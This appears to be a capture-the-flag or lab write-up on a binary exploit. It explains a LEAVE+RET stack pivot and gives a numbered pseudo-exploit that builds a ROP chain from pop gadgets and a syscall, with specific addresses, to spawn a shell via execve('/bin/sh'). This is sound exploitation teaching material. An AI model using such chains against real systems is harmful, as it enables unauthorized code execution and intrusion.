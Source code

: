 
Fantastic a gadget that does a LEAVE basically set the stack to rbp+8 that points to our main and to trigger the ROP
is needed a `ret` instruction so a gadget like LEAVE + RET is used. This gadget will execute the jump to the ***0x004b40f0[16]***.
What if at ***0x004b40f0[16]*** there is the address of another gadget like `instr1;instr2;ret`?
Yes it is executed and on the its `ret` the core tries to call the address at ***0x004b40f0[24]*** and so on.
Theoretically a ROP chain is built.

*** NOTE ***
The LEAVE+RET gadget is the one that trigger the ROP so is the last one to insert in memory!

The exploit at this point is very clear:

1. Write Addr 0x004b40f0
2. Write Data = concat(0x402960,0x401b6d)
3. Write Addr 0x004b40f0 + 16
4. Write Gadget1 + Gadget2
5. Write Addr 0x004b40f0
6. Write LEAVE+RET gadget.

On the 6th step the gadget LEAVE+ret is executed and then the Gadget1 is executed and then the Gadget2.

Now It is time to find gadgets to execute a shell: `execve("/bin/sh", NULL, NULL)`.
Registers configuration:

`
rax = 59
rdi = addr\_of("/bin/sh")
rsi = 0
rdx = 0
`

On the step 4 instead writing two gadgets, it's better writing a gadget and a value. In this way the gadget needed are the ones like:
`pop \*; ret;` since there is a pop the stack goes forward to the next gadget and never calls the value we put!

So the pseudo exploit now is:

1. Write Addr 0x004b40f0
2. Write Data = concat(0x402960,0x401b6d)
3. Write Addr 0x004b40f0 + 16
4. Write Gadget1_POP_RAX + 0x3b
5. Write Addr 0x004b40f0 + 32
6. Write Gadget1_POP_RDX + 0x0
7. Write Addr 0x004b40f0 + 48
8. Write Gadget1_POP_RSI + 0x00
9. Write Addr 0x004b40f0 + 64
10. Write Gadget1_POP_RDI + (0x004b40f0 + 88)
11. Write Addr 0x004b40f0 + 80
12. Write Gadget1_SYSCALL + "/bin/sh"
13. Write Addr 0x004b40f0
14. Write LEAVE+RET gadget.

